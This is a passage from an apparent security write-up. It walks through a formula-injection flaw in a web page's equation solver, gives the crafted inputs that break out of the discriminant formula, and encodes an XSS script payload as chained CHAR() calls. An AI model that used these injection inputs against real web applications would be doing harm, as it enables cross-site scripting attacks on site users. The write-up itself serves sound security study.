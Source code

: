 In order to exploit this flaw we first need a formula function that we can use to generate arbitrary chars or strings, since currently only numbers (roots) are embedded in the web page code. After some Googling, it becomes clear that the `CHAR()` function, for example, is a good candidate. It takes a number from 1 to 255 and converts it to an ascii character. 

We try to inject characters into the first formula (r1Formula). To do this, however, we must first break out of the discriminant formula. Therefore we select the values as follows:

```
A: 1 
B: 0,0)+SUM(
C: 15)&")),2)&CHAR(66)&CHAR(76)&CHAR(65)&SUM(SUM((0"
```

This results in the formula $discriminantFormula looking like this. I have put the injected parts in brackets:
```
=POWER( [[ 0,0)+SUM( ]] ,2) - (4 * [[ 1 ]] * [[ 15)&")),2)&CHAR(66)&CHAR(76)&CHAR(65)&SUM(SUM((0" ]])'
              B                       A                             C
```

When this formula is evaluated, this is the result: 
```
#NUM!)),2)&CHAR(66)&CHAR(76)&CHAR(65)&SUM(SUM((0
```

The `&`-character is used in office-like formulas to concatenate strings. Since the inital discriminant formula could not be calculated to a valid number, `#NUM!` is the output followed by our injected part: `)),2)&CHAR(66)&CHAR(76)&CHAR(65)&SUM(SUM((0"`. As the $discriminat variable is still used in the formulas afterwards, the string that we have injected is also injected in `$r1Formula` and `$r2Formula`.

After the injection, the `$r1Formula` formula looks like this: 
```
=IMDIV(IMSUM(- [[ 0,0)+SUM( ]],IMSQRT( [[ #NUM!)),2)&CHAR(66)&CHAR(76)&CHAR(65)&SUM(SUM((0 ]] )),2 * [[ 1 ]])
```

This formula is evaluated like this: 
```
=IMDIV(IMSUM(-0,0)+SUM(,IMSQRT(#NUM!)),2)&CHAR(66)&CHAR(76)&CHAR(65)&SUM(SUM(0),2)
```
The result looks like this:
```
#NUM!BLA2
```
As you can see, we have injected the string "BLA" which is equivalent to `CHAR(66)&CHAR(76)&CHAR(65)`. 

In order to create the XSS payload we have to translate the desired payload (`<script>alert(document.domian)</script>`) into the formulas syntax : 

```
CHAR(60)&CHAR(115)&CHAR(99)&CHAR(114)&CHAR(105)&CHAR(112)&CHAR(116)&CHAR(62)&CHAR(97)&CHAR(108)&CHAR(101)&CHAR(114)&CHAR(116)&CHAR(40)&CHAR(100)&CHAR(111)&CHAR(99)&CHAR(117)&CHAR(109)&CHAR(101)&CHAR(110)&CHAR(116)&CHAR(46)&CHAR(100)&CHAR(111)&CHAR(109)&CHAR(97)&CHAR(105)&CHAR(110)&CHAR(41)&CHAR(60)&CHAR(47)&CHAR(115)&CHAR(99)&CHAR(114)&CHAR(105)&CHAR(112)&CHAR(116)&CHAR(62)
```
